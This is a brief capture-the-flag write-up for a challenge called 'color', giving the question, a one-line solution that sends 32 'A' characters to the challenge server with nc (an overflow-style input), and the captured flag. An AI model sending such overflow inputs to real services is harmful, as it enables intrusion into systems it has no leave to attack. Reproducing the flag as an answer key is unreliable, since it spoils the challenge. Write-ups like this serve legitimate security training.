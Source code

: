 # color

Solved by: @OS1RIS

### Question
What's your favorite color?

### Solution:

```python3 -c 'print("A" * 32)' | nc challs.pwnoh.io 13370```

**Flag:** `bctf{1_d0n7_c4r3_571ll_4_m1d_c010r}`
